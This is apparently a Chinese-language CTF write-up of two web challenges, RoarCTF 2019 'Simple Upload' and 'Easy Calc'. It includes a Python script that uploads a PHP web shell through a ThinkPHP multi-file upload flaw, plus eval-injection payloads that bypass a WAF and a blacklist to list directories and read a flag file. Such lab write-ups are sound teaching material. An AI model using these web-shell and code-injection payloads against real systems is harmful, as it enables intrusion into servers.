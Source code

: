 ## 0x01 [RoarCTF 2019]Simple Upload

首页给了源码

```php
<?php
namespace Home\Controller;

use Think\Controller;

class IndexController extends Controller
{
    public function index()
    {
        show_source(__FILE__);
    }
    public function upload()
    {
        $uploadFile = $_FILES['file'] ;
        
        if (strstr(strtolower($uploadFile['name']), ".php") ) {
            return false;
        }
        
        $upload = new \Think\Upload();// 实例化上传类
        $upload->maxSize  = 4096 ;// 设置附件上传大小
        $upload->allowExts  = array('jpg', 'gif', 'png', 'jpeg');// 设置附件上传类型
        $upload->rootPath = './Public/Uploads/';// 设置附件上传目录
        $upload->savePath = '';// 设置附件上传子目录
        $info = $upload->upload() ;
        if(!$info) {// 上传错误提示错误信息
          $this->error($upload->getError());
          return;
        }else{// 上传成功 获取上传文件信息
          $url = __ROOT__.substr($upload->rootPath,1).$info['file']['savepath'].$info['file']['savename'] ;
          echo json_encode(array("url"=>$url,"success"=>1));
        }
    }
}
```

根据Thinkphp的URL构造

``/index.php/home/index/upload``可以上传文件

``$upload->upload() ;``无参数可以上传任意个数文件而``allowExts``只能限制第一个的后缀名

然后再利用Upload ``'saveName'     => array('uniqid', ''),``基于时间命名的特性进行爆破shell文件名,getshell,（这里是直接把shell变成flag了....）

```php
import requests
import base64

url = "http://70e50a65-e216-4fd2-aa95-a79ba62daaa7.node3.buuoj.cn/index.php/home/index/upload"

files = {
            "file":("a.txt",'a'),
            "file1":("b.php", '<?php echo "233";eval($_REQUEST["eki"]);'),
        }

data = {"upload":"Submit"}

r = requests.post(url=url, data=data, files=files)
print(r.text) 
```

## 0x02 Easy Calc

点进去是一个简单的计算器

输入1+1返回2

输入{{1+1}}提示无法计算

看下源代码

```js
    $('#calc').submit(function(){
        $.ajax({
            url:"calc.php?num="+encodeURIComponent($("#content").val()),
            type:'GET',
            success:function(data){
                $("#result").html(`<div class="alert alert-success">
            <strong>答案:</strong>${data}
            </div>`);
            },
            error:function(){
                alert("这啥?算不来!");
            }
        })
        return false;
    })
```

调用了calc.php,访问看一下

```php
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        die("what are you want to do?");
                }
        }
        eval('echo '.$str.';');
}
?>
```

使用了eval()意味着我们只要能绕过blacklist就能执行任意命令。

测试了一下只能输入运算符和数字，怎么办....

查阅资料发现只要在num前加个空格就可以绕过waf对num的数字检测了

```
poc=/calc.php?%20num=phpinfo()
```

Exp:

```
payload=/calc.php?%20num=var_dump(scandir(chr(47))) //"/" ""被ban,用chr绕过

1array(24) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(10) ".dockerenv" [3]=> string(3) "bin" [4]=> string(4) "boot" [5]=> string(3) "dev" [6]=> string(3) "etc" [7]=> string(5) "f1agg" [8]=> string(4) "home" [9]=> string(3) "lib" [10]=> string(5) "lib64" [11]=> string(5) "media" [12]=> string(3) "mnt" [13]=> string(3) "opt" [14]=> string(4) "proc" [15]=> string(4) "root" [16]=> string(3) "run" [17]=> string(4) "sbin" [18]=> string(3) "srv" [19]=> string(8) "start.sh" [20]=> string(3) "sys" [21]=> string(3) "tmp" [22]=> string(3) "usr" [23]=> string(3) "var" }

payload=var_dump(readfile(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))

flag{ec5c334b-a625-4a44-bede-7fb5dd20ef87} int(43)
```

### 参考资料

https://www.freebuf.com/articles/web/213359.html